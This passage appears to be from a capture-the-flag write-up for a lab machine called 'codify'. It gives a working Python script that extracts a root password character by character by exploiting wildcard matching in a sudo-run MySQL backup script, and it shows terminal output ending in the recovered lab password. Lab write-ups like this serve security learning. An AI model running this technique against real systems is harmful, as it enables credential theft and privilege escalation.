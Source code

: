 Basically, here is what the loop is doing:

- The 'for j in stuff' reads one character from the 'stuff' string one at a time, which stores all of the characters. It essentially loops through all the characters.
- We use the Popen library to run the MySQL backup script, while sending in the password we used with a wildcard (input1). We then get the stdout data.
- If the output contains the word 'Done', that means the password was correct. We then concatenate the correct password character to the password string, so that we can test the next character.

Here is the final script:

```python
import string
from subprocess import Popen, PIPE, STDOUT

stuff = string.ascii_letters + string.digits

passw = ""

for i in range(100):
	for j in stuff:
		input1 = passw + j + '*'

		p = Popen(['sudo', '/opt/scripts/mysql-backup.sh'], stdout=PIPE, stdin=PIPE, stderr=PIPE)
		stdout_data = p.communicate(input=input1.encode())[0]

		if b'Done' in stdout_data:
			passw = passw + j
			print(passw)
```

Here is the output of the program:

```
joshua@codify:/tmp$ python3 file.py
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
